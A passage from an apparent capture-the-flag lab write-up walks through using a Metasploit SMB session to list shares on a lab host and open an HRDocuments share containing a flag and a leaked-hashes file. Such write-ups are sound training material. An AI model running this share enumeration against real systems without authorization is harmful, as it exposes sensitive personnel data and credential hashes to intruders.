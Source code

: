 The custom shares `HRDocuments` and `ITResources` are particularly interesting as they likely contain sensitive organizational data.

### Step 4: Accessing HRDocuments Share

Let's use our Metasploit SMB session to access the shares systematically:

```bash
sessions -i 1
shares
shares -i 3  # Connect to HRDocuments
ls
```

**Session Management:**
```
Active sessions
===============

  Id  Name  Type  Information                Connection
  --  ----  ----  -----------                ----------
  1         smb   SMB tom @ 10.2.27.100:445  10.10.49.6:45959 -> 10.2.27.100:445 (10.2.27.100)
```

**Share Access Results:**
```
SMB (10.2.27.100) > shares
Shares
======

    #  Name         Type          comment
    -  ----         ----          -------
    0  ADMIN$       DISK|SPECIAL  Remote Admin
    1  C$           DISK|SPECIAL  Default share
    2  D$           DISK|SPECIAL  Default share
    3  HRDocuments  DISK
    4  IPC$         IPC|SPECIAL   Remote IPC
    5  ITResources  DISK
    6  print$       DISK          Printer Drivers

SMB (10.2.27.100) > shares -i 3
[+] Successfully connected to HRDocuments
SMB (10.2.27.100\HRDocuments) > ls
ls 
===

    #  Type  Name               Created              Accessed              Written          Changed          Size
    -  ----  ----               -------              --------              -------          -------          ----
    0  DIR   .                  2024-06-13T14:10:49  2024-06-14T11:36:28+  2025-09-28T17:2  2025-09-28T17:2
                                +05:30               05:30                 3:52+05:30       3:52+05:30
    1  DIR   ..                 2024-06-13T14:10:49  2024-06-14T11:36:28+  2025-09-28T17:2  2025-09-28T17:2
                                +05:30               05:30                 3:52+05:30       3:52+05:30
    2  FILE  flag1.txt          2025-09-28T17:23:52  2025-09-28T17:23:52+  2025-09-28T17:2  2025-09-28T17:2  34
                                +05:30               05:30                 3:52+05:30       3:52+05:30
    3  FILE  leaked-hashes.txt  2024-06-13T14:32:47  2024-06-14T11:35:14+  2024-06-14T11:3  2024-06-14T11:3  6665
                                +05:30               05:30                 5:55+05:30       5:55+05:30
```